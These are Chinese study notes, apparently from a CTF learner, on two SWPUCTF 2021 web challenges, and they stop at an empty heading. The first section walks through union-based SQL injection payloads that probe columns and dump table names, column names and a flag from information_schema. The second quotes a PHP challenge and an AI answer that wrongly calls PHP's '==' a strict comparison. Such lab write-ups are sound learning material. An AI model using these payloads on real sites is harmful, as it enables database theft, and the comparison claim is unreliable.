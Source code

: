 # 刷题心得
## web
### [SWPUCTF 2021 新生赛]easy_sql
#### 思路和解题过程：
- 参考wp，从查询语句入手，接下来把查询语句和解释放下面作为参考
```
?wllm=1' order by 3 --+ 
这里？是用来隔开域名和查询语句的，参数是wllm，单引号是闭合sql中的字符串尝试注入错误查询参数，orderby是排列语句，表示按第3列排序，这里是通过 ORDER BY 来探测目标表的列数。通过不断增加数字（如 order by 4, order by 5），直到返回错误，就可以确定表的列数。（至少有几列）
?wllm=-1' union select 1,2,3 --+
-1 是一个不存在的值，目的是让原始查询返回空结果，从而让 UNION SELECT 的结果显示出来，SELECT 1,2,3 是攻击者构造的查询，目的是探测目标查询的列数，并确定哪些列会在页面上显示。这里的 1,2,3 是占位符，表示3列。如果目标查询的列数不是3，数据库会返回错误。
?wllm=-1' union select 1,2,database() --+
查询数据库名字
?wllm=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='test_db'--+
1 和 2 是占位符，用于填充目标查询的列。group_concat(table_name) 是MySQL中的一个函数，用于将多个行的值连接成一个字符串。这里的作用是从 information_schema.tables 中获取所有表名，并将它们连接成一个字符串。information_schema.tables 是MySQL中的一个系统表，存储了所有表的信息。table_schema='test_db' 是一个条件，用于筛选出属于 test_db 数据库的表。
?wllm=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema='test_db'--+
中获取所有列名
?wllm=-1' union select 1,2,flag from test_tb --+
查询 test_tb 表中的 flag 列
```

### [SWPUCTF 2021 新生赛]jicao
- 题目代码
```
<?php
highlight_file('index.php');
include("flag.php");
$id=$_POST['id'];
$json=json_decode($_GET['json'],true);
if ($id=="wllmNB"&&$json['x']=="wllm")
{echo $flag;}
?>
```
#### 思考：
- 学习web解题，请教deepseek，这里我提出了一些问题和思考
1. 是否有其他解题方法？
从代码逻辑来看，这道题目的解法是固定的，因为代码明确要求：
id必须通过POST传递，且值为"wllmNB"。
json必须通过GET传递，且其解析后的数组中x键的值为"wllm"。
因此，构造特定的POST和GET参数是唯一的解题方法。没有其他绕过条件的方式。
2. 为什么需要构造这样的请求？
根据代码逻辑，要触发echo $flag;，必须满足以下两个条件：
POST参数：id=wllmNB。
GET参数：json={"x":"wllm"}。
因此，你需要构造一个同时包含POST和GET参数的请求，才能满足条件并获取flag。
3. 为什么不能通过其他方式（如Payload）绕过？
代码逻辑简单直接
这段代码的逻辑非常简单，没有复杂的漏洞（如SQL注入、文件包含、反序列化等），因此无法通过构造Payload绕过。
条件判断严格
代码中的条件判断是严格的字符串比较（==），没有类型转换漏洞或其他可利用的弱点。
无其他输入点
代码只接受id（POST）和json（GET）两个输入点，没有其他可控的输入参数。
- 也就是说有漏洞才可以构造payload进行攻击
#### 解题过程：